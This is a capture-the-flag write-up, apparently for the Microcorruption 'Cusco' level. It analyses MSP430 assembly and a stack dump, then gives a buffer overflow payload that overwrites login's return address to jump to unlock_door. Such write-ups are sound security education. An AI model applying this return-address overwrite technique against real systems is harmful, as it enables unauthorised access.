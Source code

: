 # Cusco

**Date Completed:** 10/08/2025

I started this level by inspecting login method:

```asm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	$+0xc <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	$+0x6 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

And the first thing I see is that before calling `getsn`, `r15` is loaded with a stack pointer, and `r14` is assigned the value `0x30`. This tells me `r15` is the memory location (on the stack) that will hold the user input password, and `r14` is the length of the buffer.

Immediately we can tell that 0x30 = 48 quite a large buffer given that password size constraint is specified between 8 and 16 characters/bytes. This tells me we can likely write past the 16-byte boundary and insert what we want on the stack.

Next step is to step into `getsn` and check the assembly:

```asm
4596 <getsn>
4596:  0e12           push	r14
4598:  0f12           push	r15
459a:  2312           push	#0x2
459c:  b012 4245      call	#0x4542 <INT>
45a0:  3150 0600      add	#0x6, sp
45a4:  3041           ret
```

Simple enough... It just push the params for the interrupt call onto the stack.
So let's inspect the stack right before the INT call (annotated):

```text
> r sp
43e6 0200 ee43 3000 1e45 0000 0000 0000 0000  ...C0..E........
     └─sp └─r15│    │    └─input buffer (43ee)    
               │    └─return address to caller addr=451e (login)
               └─r14
43f6 0000 0000 0000 0000 3c44 3140 0044 1542  ........<D1@.D.B
                         └─some address (443c)
```

So we see `sp`, `r15`, `r14` are the first 3 words on the stack (this is what we're passing to INT call to get user input), followed by the return address `451e` (remember this little-endian) - which is the memory address of the next instruction in `login()` after the call to `getsn`, followed by a 16-byte buffer, which is what `r15` points to (i.e. our input buffer).
Right after the 16-byte input buffer we have something that looks like a memory address `443c`, which is the return address of the call to `login()` from `main()` (i.e. the last return address of the program before the program loops forever and waits to reset).

```asm
4438 <main>
4438:  b012 0045      call	#0x4500 <login>
443c <__stop_progExec__>
443c:  32d0 f000      bis	#0xf0, sr
4440:  fd3f           jmp	$-0x4 <__stop_progExec__+0x0>
```

So if we overflow the input buffer past the 16-bytes, we can write any memory address we want the `pc` to jump to.

In the `login` method I see a call to `unlock_door` at `4528`.

```asm
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
```

So let's craft our input to be garbage 16-bytes HEX data followed by `2845` (4528 in little endian ordering).

**Solution: in HEX - `<16 bytes of random hex data>2845`.**

```sh
> solve
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa2845
```
